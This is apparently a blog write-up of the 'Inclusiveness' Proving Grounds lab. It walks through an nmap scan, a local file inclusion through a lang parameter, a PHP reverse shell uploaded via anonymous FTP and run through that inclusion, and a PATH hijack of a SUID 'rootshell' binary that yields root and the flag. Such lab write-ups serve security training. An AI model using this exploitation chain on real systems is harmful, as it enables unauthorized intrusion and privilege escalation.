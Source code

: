 ```yaml
---
title: Inclusiveness
categories: [Proving Grounds Play]
tags: [FTP, LFI, PrivEsc]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*fiNtXsFnX5MR7BPQV_wBvg.png
  alt:  Inclusiveness Machine 🖥️
---
```



### Lets check the IP address ➡️

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled.png)

```bash
IP : 10.10.2.50
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Inclusiveness]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.50
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 21:15 IST
Nmap scan report for 10.0.2.50
Host is up (0.00068s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.0.2.27
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 061ba39283a57a15bd406e0c8d98277b (RSA)
|   256 cb3883261a9fd35dd3fe9ba1d3bcab2c (ECDSA)
|_  256 6554fc2d12ace184783e0023fbe4c9ee (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:6F:A3:19 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ➡️

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%201.png)

Lets see the directory listing files —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%202.png)

Now lets check the `robots.txt` file ➡️

![image_1.png](/Vulnhub-Files/img/Inclusiveness/image_1.png)

Now lets look at this directory —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%203.png)

Lets check for english link which leads me for directory traversal attack → `/etc/passwd` →

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%204.png)

Other than this I was unable to get any foothold into any internal directory files so I brute-force with LFI Injection payloads through burpsuite and I got this file —> `/etc/vsftpd.conf`

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%205.png)

Now I have also access with ftp so lets upload the reverse shell file in it —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%206.png)

Now I have uploaded the file in location /ftp/pub/shell.php lets load it and get my reverse shell →

URL —> `http://10.0.2.50/secret_information/?lang=/var/ftp/pub/shell.php`

In response to that I got this —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%207.png)

Now lets recon further ⤵️

```bash
www-data@inclusiveness:/home/tom$ ls -al
ls -al
total 100
drwxr-xr-x 15 tom  tom   4096 Feb  8  2020 .
drwxr-xr-x  3 root root  4096 Feb  8  2020 ..
-rw-------  1 tom  tom    684 Feb  8  2020 .ICEauthority
-rw-r--r--  1 tom  tom    220 Feb  8  2020 .bash_logout
-rw-r--r--  1 tom  tom   3526 Feb  8  2020 .bashrc
drwx------ 10 tom  tom   4096 Feb  8  2020 .cache
drwx------ 10 tom  tom   4096 Feb  8  2020 .config
drwx------  3 tom  tom   4096 Feb  8  2020 .gnupg
drwx------  3 tom  tom   4096 Feb  8  2020 .local
-rw-r--r--  1 tom  tom    807 Feb  8  2020 .profile
drwx------  2 tom  tom   4096 Feb  8  2020 .ssh
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Desktop
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Documents
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Downloads
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Music
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Pictures
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Public
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Templates
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Videos
-rwsr-xr-x  1 root root 16976 Feb  8  2020 rootshell
-rw-r--r--  1 tom  tom    448 Feb  8  2020 rootshell.c
www-data@inclusiveness:/home/tom$
```
{: .nolineno}

Lets check the `rootshell` file which executes as root and I have access to read `rootshell.c` file →

```bash
www-data@inclusiveness:/home/tom$ cat rootshell.c
cat rootshell.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");

    char user[80];
    fgets(user, 80, f);

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
	setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}

www-data@inclusiveness:/home/tom$
```
{: .nolineno}

Now In this program whoami should be equal to tom to get our shell so I have to make whoami which says echo’s tom and it will execute accordingly →

```bash
www-data@inclusiveness:/home/tom$ cd /tmp
cd /tmp
www-data@inclusiveness:/tmp$ echo 'echo "tom"' >whoami
echo 'echo "tom"' >whoami
www-data@inclusiveness:/tmp$ cat whoami
cat whoami
echo "tom"
www-data@inclusiveness:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
www-data@inclusiveness:/tmp$ /home/tom/rootshell
/home/tom/rootshell
checking if you are tom...
you are: tom

access granted.
# /bin/bash -i
/bin/bash -i
root@inclusiveness:/tmp# whoami
whoami
tom
root@inclusiveness:/tmp# export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
<l/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
root@inclusiveness:/tmp# whoami
whoami
root
root@inclusiveness:/tmp# cd ~
cd ~
root@inclusiveness:/root# ls -al
ls -al
total 64
drwx------  5 root root  4096 Feb  8  2020 .
drwxr-xr-x 19 root root  4096 Feb  8  2020 ..
-rw-r--r--  1 root root   570 Jan 31  2010 .bashrc
drwx------  2 root root  4096 Feb  8  2020 .cache
-rw-------  1 root root    34 Feb  8  2020 .lesshst
drwxr-xr-x  3 root root  4096 Feb  8  2020 .local
-rw-r--r--  1 root root   148 Aug 18  2015 .profile
drwxr-xr-x  2 root root  4096 Feb  8  2020 .vim
-rw-------  1 root root 21141 Feb  8  2020 .viminfo
-rw-r--r--  1 root root    21 Feb  8  2020 .vimrc
-rw-r--r--  1 root root   141 Feb  8  2020 flag.txt
root@inclusiveness:/root# cat flag.txt
cat flag.txt
|\---------------\
||                |
|| UQ Cyber Squad |       
||                |
|\~~~~~~~~~~~~~~~\
|
|
|
|
o

flag{omg_you_did_it_YAY}
root@inclusiveness:/root#
```

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }